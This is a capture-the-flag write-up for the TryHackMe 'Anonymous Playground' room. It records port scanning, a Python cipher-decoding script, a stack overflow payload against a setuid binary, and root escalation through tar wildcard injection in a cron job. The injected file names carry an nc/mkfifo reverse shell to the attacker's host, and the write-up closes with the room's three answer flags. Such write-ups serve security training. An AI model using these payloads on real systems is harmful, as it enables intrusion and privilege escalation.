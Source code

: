 # Anonymous Playground

Want to become part of Anonymous? They have a challenge for you. Can you get the flags and become an operative?

[Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

- Network Enumeration
- Web Poking
- Cookie Manipulation
- Python Scripting (Decoding)
- Reverse Engineering
- Exploiting Crontab



---------------------------------

## Task 1 Prove Yourself

So, you've decided to sign up with Anonymous? Well, it won't be that easy. They've constructed a vulnerable CTF machine for
you to hack your way into and prove you have what it takes to become a member of Anonymous. Can you do it? Do you have
what it takes?

There's 3 flags on this machine. Two will be users, the other user will be the almighty root.

I have to credit Robin for his insane dedication to helping me with all of my RE and Binex questions. Without his patience,
I would have never been able to create this room the way I had imagined it. So thank you sir.

Also credit goes to Sq00ky for the super special idea found in the initial foothold stage (not going to give any
spoilers away!)

Please allow 3-5 minutes for the box to fully deploy once you hit the "Deploy" button.

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ sudo nmap -A -sS -sC -sV -O 10.10.149.68
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 18:10 CEST
Nmap scan report for 10.10.149.68
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/20%OT=22%CT=1%CU=35745%PV=Y%DS=2%DC=T%G=Y%TM=5F8F0C
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.8.0.1
2   35.60 ms 10.10.149.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
```

[http://10.10.149.68/robots.txt](http://10.10.149.68/robots.txt)

```
User-agent: *
Disallow: /zYdHuAKjP
```

[http://10.10.149.68/zYdHuAKjP/](http://10.10.149.68/zYdHuAKjP/)

![](./2020-10-20_18-13.png)

![](./2020-10-20_18-14.png)

`hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN`

```py
def positions(str):
    list1 = []
    for i in str:
        list1.append((ord(i) & 31))

    res = []
    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)


    for i in range(len(res)):
        print(chr(res[i] + 64).lower(), end=" ")

str1 = "hEzAdCfHzA"
positions(str1)
print("::", end=" ")
str2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
positions(str2)
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ python3 script.py
m a g n a :: m a g n a i s a n e l e p h a n t
```

`magna::magnaisanelephant`

```
magna@anonymous-playground:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10 02:17 .
drwxr-xr-x 5 root   root   4096 Jul  4 19:25 ..
lrwxrwxrwx 1 root   root      9 Jul  4 19:42 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4 16:47 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4 16:47 .bashrc
drwx------ 2 magna  magna  4096 Jul  4 20:49 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7 01:04 .config
-r-------- 1 magna  magna    33 Jul  4 19:44 flag.txt
drwx------ 3 magna  magna  4096 Jul  4 20:49 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10 01:47 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4 20:47 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6 21:24 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4 16:47 .profile
drwx------ 2 magna  magna  4096 Jul  4 20:55 .ssh
-rw------- 1 magna  magna   817 Jul  7 01:52 .viminfo
magna@anonymous-playground:~$ cat flag.txt
9184177ecaa83073cbbf36f1414cc029
```

```
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

```
magna@anonymous-playground:~$ (python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:/home/spooky$ cat flag.txt
cat flag.txt
69ee352fb139c9d0699f6f399b63d9d7
```

```
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

```
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 shell.sh""--checkpoint-action=exec=sh
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.149.68] 41480
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
bc55a426e98deb673beabda50f24ce66
```

1. User 1 Flag

`9184177ecaa83073cbbf36f1414cc029`

2. User 2 Flag

`69ee352fb139c9d0699f6f399b63d9d7`

3. Root Flag

`bc55a426e98deb673beabda50f24ce66`
